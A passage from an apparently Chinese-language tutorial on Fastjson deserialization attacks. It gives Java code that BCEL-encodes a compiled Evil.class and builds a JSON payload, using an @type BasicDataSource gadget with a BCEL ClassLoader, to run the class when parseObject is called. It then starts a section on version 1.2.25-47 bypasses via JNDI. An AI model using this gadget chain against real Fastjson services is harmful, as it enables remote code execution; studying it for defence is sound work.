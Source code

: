 11. 得到的最终 payload 如下：
    ```java
    private static void ClassLoaderGadget() throws IOException, ClassNotFoundException, InstantiationException, IllegalAccessException, SQLException {
        // com.sun.org.apache.bcel.internal.util.ClassLoader 的基本的使用方法
        ClassLoader classLoader = new ClassLoader();
        byte[] bytes = fileToBinArray(new File("target/classes/Evil.class"));
        String code = Utility.encode(bytes, true);
        // classLoader.loadClass("$$BCEL$$" + code).newInstance();
    
        // BasicDataSource basicDataSource = new BasicDataSource();
        // basicDataSource.setDriverClassLoader(classLoader);
        // basicDataSource.setDriverClassName("$$BCEL$$" + code);
        // basicDataSource.getConnection();
    
        // payload
        String payload = "{\"@type\":\"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\"," +
            "\"DriverClassName\":\"$$BCEL$$" + code + "\"," +
            "\"DriverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"}}";
        JSONObject jsonObject = JSON.parseObject(payload);
    
    }
    ```

    由于调用的是 `parseObject()`，因此最终的 `getConnection()` 会自动调用。

## 4. Fastjson 高版本绕过

### 4.1 1.2.25-47 版本绕过 - JDNI 链

1. 对比 1.2.24，该版本多了一步：